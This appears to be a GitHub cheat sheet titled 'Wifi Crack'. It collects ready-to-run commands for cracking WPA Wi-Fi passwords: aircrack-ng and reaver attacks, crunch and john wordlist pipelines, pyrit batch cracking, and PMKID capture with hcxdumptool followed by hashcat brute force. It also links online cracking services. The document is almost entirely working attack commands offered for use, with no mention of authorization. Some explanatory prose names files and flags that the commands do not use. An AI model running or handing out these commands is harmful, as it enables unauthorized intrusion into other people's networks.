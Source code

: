 # Wifi Crack

## Aircrack: (Hash)

	aircrack-ng -w password.lst -b 00:14:6C:7E:40:80 psk\*.cap

## Reaver: (PSK)

	reaver -i mon0 -c 6 -b 00:23:69:48:33:95 -vv
	reaver -i wlan0mon <replace with yours> -b <bssid> -c <channel no> -K 1 -vv

## Crunch & Aircrack:

	crunch 8 8 0123456789 -s 00000000 -e 99999999 | aircrack -e test proof.cap -w -

Use john to keep a session of aircrack when used with huge wordlist:

	crunch 8 8 | john --stdin --wordlist=password.lst --stdout --session=sessname | aircrack-ng -b C0:25:E9:62:CE:E5 psk-01.cap -w -


## John & Aircrack:

	john --wordlist=password.lst --rules=Jumbo --stdout | aircrack-ng -b C0:25:E9:62:CE:E5 psk-01.cap -w -

Use john to keep a session of aircrack when used with huge wordlist:

	john --wordlist=password.lst --rules=Jumbo --stdout --session=sessname | aircrack-ng -b C0:25:E9:62:CE:E5 psk-01.cap -w -

https://wpa-sec.stanev.org/
https://github.com/danielmiessler/SecLists

## Pyrit:

Pyrit is one of the fastest tools available for WPA password-cracking out there.

One helpful tool is the strip command, which strips down long capture files to only include relevant packets. And then there's the verify option that lets Pyrit confirm results via recomputation.

Pyrit also has several features to import multiple password lists into a large database. To prevent duplicates, the import_unique_passwords command can also strip out passwords that appear multiple times in the same file we're trying to import. After we import passwords to the database, we can start cracking them with the attack_batch option.

Download a Password List & Benchmark System:

	wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/WiFi-WPA/probable-v2-wpa-top4800.txt

	pyrit benchmark (benchmark our system)

	pyrit -i '/root/Desktop/probable-v2-wpa-top4800.txt' import_passwords (import passwords to the database)

Capture handshakes:

	airmon-ng start wlan0
	airodump-ng wlan0mon -c 3 -w capture
	pyrit -r '/root/Desktop/capture-01.cap' analyze (analyse captured file to show if we have a valid handshake)

Final command:

	pyrit -r capture.pcap -o savedpass attack_batch

## Hxctools & Hashcat

In this case we use Hxctools & Hashcat to capture packets and crack the password but we can do that automaticaly with wifite, if the necessary softwares are installed Wifite will automaticaly use them and give us a URL to upload the modified handshakes. Then the password cracking is performed from connected server online using different password lists.

Install Hxctools & Hashcat:

	sudo apt-get install libcurl4-openssl-dev libssl-dev zlib1g-dev

MacOs Install:

	brew install hashcat hxctools
	
On your Git folder:

	git clone https://github.com/ZerBea/hcxdumptool.git
	cd hcxdumptool
	sudo make
	sudo make install

On your Git folder:

	git clone https://github.com/ZerBea/hcxtools.git
	cd hcxtools
	sudo make
	sudo make install

	apt install hashcat

Use Hxcdump to Capture PMKIDs from Local Networks

	airmon-ng start wlan0
	
	hcxdumptool -i wlan0mon -o capture.pcapng --enable__status=1

-i tells the program which interface we are using, in this case, wlan0mon. The filename we'll be saving the results to can be specified with the -o flag argument. The channel we want to scan on can be indicated with the -c flag followed by the number of the channel to scan.

Use Hxcpcaptool to Convert the Dump for Hashcat:

To convert our PCAPNG file, we'll use hcxpcaptool with a few arguments specified. In the same folder that your .PCAPNG file is saved, run the following command in a terminal window.

	hcxpcaptool -z hash capture.pcapng

	hcxpcaptool -E essidlist -I identitylist -U usernamelist -z hash capture.pcapng

This command is telling hxcpcaptool to use the information included in the file to help Hashcat understand it with the -E, -I, and -U flags. The -Z flag is used for the name of the newly converted file for Hashcat to use, and the last part of the command is the PCAPNG file we want to convert.

Select a Password List & Brute Force with Hashcat:

	hashcat -m 16800 --force hash /home/user/Downloads/rockyou.txt.txt -w 4 -a 0

	hashcat -m 16800 --force hash /home/user/Downloads/rockyou.txt.txt > out.txt

	hashcat -m 16800 --force hash /home/user/Downloads/rockyou.txt.txt --show
	
In this command, we are starting Hashcat in 16800 mode, which is for attacking WPA-PMKID-PBKDF2 network protocols. Next, we'll specify the name of the file we want to crack, in this case, "HC.16800." The -a flag tells us which types of attack to use, in this case, a "straight" attack, and then the -w and --kernel-accel=1 flags specifies the highest performance workload profile. If your computer suffers performance issues, you can lower the number in the -w argument.

Next, the --force option ignores any warnings to proceed with the attack, and the last part of the command specifies the password list we're using to try to brute force the PMKIDs in our file, in this case, called "topwifipass.txt."

Online cracking:

	https://gpuhash.me/
